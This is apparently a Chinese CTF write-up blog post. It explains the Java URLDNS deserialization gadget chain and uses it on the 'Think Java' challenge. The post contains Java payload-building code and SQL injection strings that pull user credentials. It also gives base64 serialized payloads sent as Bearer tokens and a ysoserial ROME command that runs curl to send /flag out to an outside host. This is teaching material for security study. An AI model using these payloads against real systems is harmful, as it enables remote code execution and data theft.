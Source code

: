 ```yaml
---
layout: post
title: UrlDns链
tags: jekyll    
---
```

## 链分析：

给出的利用链：

```
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
```

URL继承了Serializable接口，所以可以反序列化

![image-20240906130431694](\images\posts\UrlDns\image-20240906130431694.png)

URL中hashCode函数调用handler的hashCode,handler的hashCode根据地址解析请求

![image-20240906130636566](\images\posts\UrlDns\image-20240906130636566.png)

![image-20240906130717402](\images\posts\UrlDns\image-20240906130717402.png)

找一个JDK自带的入口点，就是HashMap,HashMap的readObject方法里面调用了hash方法，hash方法调用了hashCode

![image-20240906131001165](\images\posts\UrlDns\image-20240906131001165.png)

![image-20240906131125602](\images\posts\UrlDns\image-20240906131125602.png)

同名函数调用就可以走到URL的hashCode方法里面

```
package org.example;
import java.io.*;
import java.net.URL;
import java.util.HashMap;

public class UrlDns_Test {
    public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
        HashMap<URL, Object> hashMap = new HashMap<URL, Object>();
        URL url = new URL("http://Dnslog");
        hashMap.put(url,123);
        serialize(hashMap);
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CCTest1.ser"));
        oos.writeObject(obj);
    }
}

```

但在hashMap的put方法里面也调用了hash函数，在反序列化之前就发起了Dns请求

![image-20240906131644117](\images\posts\UrlDns\image-20240906131644117.png)

URL中当hashCode=-1时才会触发handler的hashCode，hashCode初始化就是-1

![image-20240906131747810](\images\posts\UrlDns\image-20240906131747810.png)

![image-20240906131930314](\images\posts\UrlDns\image-20240906131930314.png)

所以在调用反射，在put前将其修改不为-1，put后修改回-1。

```
public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
    HashMap<URL, Object> hashMap = new HashMap<URL, Object>();
    URL url = new URL("http://ensix8.dnslog.cn");
    
    Class c = url.getClass();
    Field hashCodefield = c.getDeclaredField("hashCode");
    hashCodefield.setAccessible(true);
    //随便改一个值
    hashCodefield.set(url, 12);
    hashMap.put(url, 123);
    //put后改回-1
    hashCodefield.set(url, -1);
        serialize(hashMap);
        //unserialize("CCTest1.ser");
}
public static void serialize(Object obj) throws IOException {
    ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CCTest1.ser"));
    oos.writeObject(obj);
}

public static Object unserialize(String filename) throws IOException, ClassNotFoundException {
    ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
    Object obj = ois.readObject();
    return obj;
}
```

## 利用：[网鼎杯 2020 朱雀组]Think Java例子

SqlDict文件拼接SQL语句，存在SQL注入

![image-20240906214506699](\images\posts\UrlDns\image-20240906214506699.png)

路由是/common/test/sqlDict

![image-20240906214456321](\images\posts\UrlDns\image-20240906214456321.png)

网站swagger接口泄露，/swagger-ui.html的/common/test/sqlDict接口下SQL注入获取账户密码admin,admin@Rrrr_ctf_asde

```
myapp#a=' union select (select name from user)#
myapp#a=' union select (select pwd from user)#
```

admin登录后得到base64编码字符串

```
Bearer rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFuZy9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDMjyPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABWFkbWlu
```

rO0AB开头，基本确定反序列化文件内容编码

/common/user/current放入请求返回得到信息

![image-20240906215618328](\images\posts\UrlDns\image-20240906215618328.png)

用之前的UrlDns链生成payload测试，在将内容base64编码

```
public class POC {
    public static void main(String[] args) throws IOException {

        File file = new File("CCTest1.ser");
        FileInputStream fis = new FileInputStream(file);
        byte[] byteArray = new byte[(int) file.length()];
        fis.read(byteArray);
        fis.close();


        String base64Encoded = Base64.getEncoder().encodeToString(byteArray);
        System.out.println("Base64 Encoded Payload: " + base64Encoded);
    }
}
```

反序列化的字符串也是rO0AB开头

```
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IADGphdmEubmV0LlVSTJYlNzYa/ORyAwAHSQAIaGFzaENvZGVJAARwb3J0TAAJYXV0aG9yaXR5dAASTGphdmEvbGFuZy9TdHJpbmc7TAAEZmlsZXEAfgADTAAEaG9zdHEAfgADTAAIcHJvdG9jb2xxAH4AA0wAA3JlZnEAfgADeHD//////////3QAEDNtN3B2aS5kbnNsb2cuY250AABxAH4ABXQABGh0dHBweHNyABFqYXZhLmxhbmcuSW50ZWdlchLioKT3gYc4AgABSQAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAB7eA==
```

发送payload，带上Bearer 

```
Bearer rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IADGphdmEubmV0LlVSTJYlNzYa/ORyAwAHSQAIaGFzaENvZGVJAARwb3J0TAAJYXV0aG9yaXR5dAASTGphdmEvbGFuZy9TdHJpbmc7TAAEZmlsZXEAfgADTAAEaG9zdHEAfgADTAAIcHJvdG9jb2xxAH4AA0wAA3JlZnEAfgADeHD//////////3QAEDNtN3B2aS5kbnNsb2cuY250AABxAH4ABXQABGh0dHBweHNyABFqYXZhLmxhbmcuSW50ZWdlchLioKT3gYc4AgABSQAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAB7eA==
```



成功收到请求

![image-20240906215339584](\images\posts\UrlDns\image-20240906215339584.png)

后面用ysoserial生成payload,再加密直接把flag外带出来就行

```
java -jar ysoserial-all.jar ROME "curl http://ip:port -d @/flag" > 1.ser
```



